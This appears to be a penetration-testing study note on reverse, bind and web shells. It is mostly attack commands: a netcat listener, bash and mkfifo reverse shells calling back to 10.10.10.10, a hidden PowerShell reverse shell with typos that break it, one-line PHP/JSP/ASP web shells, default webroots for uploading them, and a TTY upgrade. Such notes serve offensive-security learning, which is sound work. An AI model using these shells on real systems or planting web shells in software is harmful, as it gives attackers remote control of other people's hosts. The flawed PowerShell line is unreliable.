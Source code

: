 # TYPES OF SHELLS

## REVERSE SHELL
Connects back to out system and gives us control through a reverse connection

### NETCAT LISTENER
Start a netcat listener on a port of our choosing
> nc -lvnp 1234

Flags   Description
-l      Listen mode. Wait for a connection to connect to us.
-v      Verbose mode. We know when we receive a connection.
-n      Disable DNS resolution and only connect from/to IP. To Speed up the connection.
-p      Port number netcat is listening on, and the reverse connection should be sent to.

### CONNECT BACK IP
We can find our IP with the following command:
>ip a

### REVERSE SHELL COMMAND
The command we execute depends on what OS the compromised host runs.The [Payload All The Things](https://www.github.com/swisskyrepo/PayloadsAllTheThings) page has a list of reverse shell commands we can use that cover a wide range of options depending on our compromised host. Here is a few examples:

> Code: bash
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

> Code: bash
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&3|nc 10.10.10.10 1234 >/tmp/f
```

>Code: powershell
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10"),1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEnconding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String); $sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

A reverse shell is handly when we want to get quick, reliable connection to our compromised host. Take care when reverse shell command is stoped, or we lose connection for any reason. We would have to use the initial exploit to execute reverse shell command again to regain our access.

## BIND SHELL
Waits for us to connect to it and gives us control once we do

### BIND SHELL COMMAND
Once again, we can use [Payloads All The Things](https://www.github.com/swisskyrepo/PayloadsAllTheThings)

### NETCAT CONNECTION
Once we execute the bind shell command, we should have a shell waiting for us on the specified port. We can now connect to it. We can use netcat to connect to that port and get a connection to the shell:
> nc 10.10.10.10 1234

If we drop our connection, we can connect back to it and get another connection immediately. However, if the bind shell command stopped, or if the remote host is rebooted, we should still lose our access and will have to exploit again.

### UPGRADING TTY
If we can not move the text cursor left/right to edit our commands, nor can we go up/down to access the command history, we should to upgrade our TTY. In our netcat shell, we will use the following command:
> python -c 'import pty; pty.spawn("/bin/bash")'

After that, we hit ctrl+z to background our shell and get back on our local terminal, and input the following stty command:
> stty raw -echo
> fg
[Enter]
[Enter]


## WEB SHELL
Communicates through a web server, accepts our commands through HTTP parameters, executes them, and prints back the output.

### WRITING A WEB SHELL
A web shell script is typically a one-liner that is very short and can be memorized easily. The following are some common short web shell scripts for common web lenguages:

> Code: PHP
```php
<?php system($_REQUEST["cmd"]); ?>
```

> Code: jsp
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

> Code: asp
```asp
<% eval request("cmd") %>
```

### UPLOADING A WEB SHELL
Once we have our web shell we need to place it into the remote host's web directory (webroot). So, the first is identify where the webroot is. The following are the default webroots for common web servers:

Web Server      Default Webroot
Apache          /var/www/html/
Nginx           /usr/local/nginx/html/
ISS             c:\inetpub\wwwroot\
XAMPP           C:\xampp\htdocs\

### ACCESSING WEB SHELL
We can either access it through a browser or by using cURL.
